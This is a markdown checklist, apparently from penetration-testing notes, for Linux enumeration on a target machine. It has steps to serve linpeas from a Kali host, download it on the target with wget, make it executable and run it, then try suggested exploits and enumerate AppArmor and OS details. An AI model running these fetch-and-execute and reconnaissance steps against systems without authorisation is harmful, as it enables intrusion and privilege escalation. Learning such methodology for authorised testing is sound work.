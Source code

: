 - [ ] Serve `linpeas` on your Kali Machine
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
python3 -m http.server 80
```

- [ ] Download and run `linpeas` on the Target Machine
```bash
wget http://192.168.xxx.xxx/linpeas.sh
chmod a+x ./linpeas.sh
./linpeas.sh
```
- Try the suggested exploits from linux exploit suggester results

# AppArmor

- [ ] Verify AppArmor status on the Target Machine
```bash
su - root
aa-status
```

# Enumerate Operating System and Architecture

- [ ] List machine host name on the Target Machine
```bash
hostname
```

- [ ] List architecture on the Target Machine
```bash
arch
```

- [ ] List running Linux distribution type and version on the Target Machine
```bash
cat /etc/issue
```
```bash
cat /etc/debian_version
```
```bash
cat /etc/os-release
```
```bash
cat /etc/redhat-release
```
```bash
cat /etc/lsb-release
```
```bash
cat /etc/*-release
```
```bash
lsb_release -a
```
